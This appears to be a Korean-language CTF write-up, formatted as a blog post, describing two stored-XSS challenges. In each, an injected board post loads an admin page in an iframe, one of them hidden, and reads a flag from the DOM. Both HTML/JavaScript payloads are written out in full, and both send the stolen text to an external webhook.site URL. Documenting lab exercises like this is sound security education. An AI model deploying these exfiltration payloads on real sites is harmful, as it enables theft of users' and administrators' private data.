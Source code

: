 ```yaml
---
title: "Stealing DOM data via XSS (Same-Origin DOM Exfiltration)"
date: 2025-06-23
layout: single
toc: true
toc_label: "Stealing DOM data via XSS"
toc_icon: "book"
toc_sticky: true
tags: [web, xss, hacking]
header:
  teaser: /assets/images/stored-reflected-xss.png
---
```


# 개요

이 페이지는 Same-Origin 정책을 악용한 DOM 정보 탈취 시나리오를 실습한 기록입니다.

공격자는 게시판 등의 기능을 활용해 악성 HTML 문서를 업로드하고, 피해 사용자가 해당 게시글을 열도록 유도함으로써, 사용자의 인지 없이 자동으로 DOM 내 민감 정보가 유출되도록 구성하였습니다.

---

# 문제 풀이 정리

## Steal Info

![취약점 있는 곳](/assets/screenshots/xss-dom-steal/steal1_post.png)

게시글 작성 기능 중 **내용(body)** 입력란에 XSS 취약점이 존재함을 확인하였다.

![타겟 할 웹사이트](/assets/screenshots/xss-dom-steal/target_html.png)

누구나 접근 가능한 페이지(mypage.html)와 동일한 구조의 관리자 페이지 내부 내 정보 영역에 플래그가 숨겨져 있으나, 직접 접근 시 관리자 권한이 없어 차단되는 구조이다.

확보한 정보를 활용해, 비인가 사용자가 관리자 페이지 내부 정보를 탈취하는 시나리오를 구성하고 공격을 수행할 것 이다.

![플래그가 포함된 DOM 구조](/assets/screenshots/xss-dom-steal/target_card-text.png)

위의 `<p class="card-text">` 태그를 이용해, DOM 기반 정보 추출을 시도할 것 이다.

**다시 게시글 작성 으로 돌아가 다음과 같은 페이로드를 입력하였다:**

```html
<iframe src="http://ctf.segfaulthub.com:4343/scriptPrac/secret.php" id="id"></iframe>

<script>
document.addEventListener("DOMContentLoaded", () => {
const id = document.getElementById("id");
const text = id.contentDocument.getElementsByClassName('card-text')[1].textContent;
new Image().src = "https://webhook.site/741989d6-cb27-411b-aa44-a01355948028?c=" + text;
})
</script>
```

![페이로드](/assets/screenshots/xss-dom-steal/steal1_payload.png)

이후 **악성 게시물의 URL을 복사하여 관리자 봇에게 전달**함으로써, 해당 페이지에 접근하도록 유도했다.

![관리자에게 URL 전송](/assets/screenshots/xss-dom-steal/steal1_access_admin.png)

URL이 정상적으로 전달되었으며, 이후 Webhook 로그를 통해 DOM 정보가 외부로 유출된 것을 확인할 수 있다.

![플래그 획득](/assets/screenshots/xss-dom-steal/steal1_flag.png)

이와 같은 방식으로 **관리자 권한 없이 플래그를 탈취하는 데 성공**하였다.

---

## Steal Info 2

![타겟 할 곳](/assets/screenshots/xss-dom-steal/steal2_burp_suite.png)

위 사진의 `<input id="userInfo">` 요소는 관리자 권한으로 접근할 경우, 해당 필드의 `placeholder` 속성에 플래그가 포함되어 있다.

**이 정보를 토대로 게시글 작성 으로 돌아가 다음과 같은 페이로드를 입력하였다:**

```html
<iframe src="http://ctf.segfaulthub.com:4343/scriptPrac2/mypage.php?user=123" style="display:none" id="id"></iframe>

<script>
document.addEventListener("DOMContentLoaded", () => {
const id = document.getElementById("id");
const text = id.contentDocument.getElementById("userInfo").placeholder;
new Image().src = "https://webhook.site/741989d6-cb27-411b-aa44-a01355948028?c=" + text;
})
</script>
```

![페이로드](/assets/screenshots/xss-dom-steal/steal2_payload.png)

`iframe`에 `style="display:none"` 속성을 설정하여, **외부 페이지의 DOM 접근과 form 전송은 가능하게 유지하면서도 UI 요소가 노출되지 않도록 구성**했다. 

이를 통해 관리자가 공격 페이지에 접근하더라도 화면 상으로는 아무런 변화가 없어 의심을 피할 수 있다.

- 사용자가 직접 게시물 클릭 시:

![게시물 클릭](/assets/screenshots/xss-dom-steal/steal2_access.png)

게시글을 클릭하면, 삽입된 스크립트를 통해 현재 사용자의 `userInfo` 요소에 설정된 **placeholder 값**인 `"Nothing Here..."`가 Webhook으로 전송되는 것을 확인하였다.

이걸 이용하여 **URL을 복사하여 관리자 봇에게 전달**할 것 이다.

![관리자에게 URL 전송](/assets/screenshots/xss-dom-steal/steal2_access_admin.png)

관리자 봇에게 XSS가 삽입된 URL을 전달하여 요청을 유도한 후

> **결과:**

![플래그 획득](/assets/screenshots/xss-dom-steal/steal2_flag.png)

**이렇게 관리자 권한 없이 플래그를 획득하는 데 성공했다.**